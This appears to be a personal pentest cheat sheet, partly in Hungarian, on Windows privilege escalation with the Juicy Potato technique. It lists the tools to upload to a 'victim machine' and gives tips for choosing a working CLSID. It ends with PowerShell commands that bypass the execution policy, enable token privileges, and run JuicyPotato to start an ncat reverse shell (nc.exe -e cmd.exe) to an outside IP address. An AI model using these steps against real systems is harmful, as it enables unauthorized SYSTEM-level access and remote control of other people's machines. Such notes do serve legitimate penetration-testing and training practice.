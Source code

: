 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuciyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"
</pre>
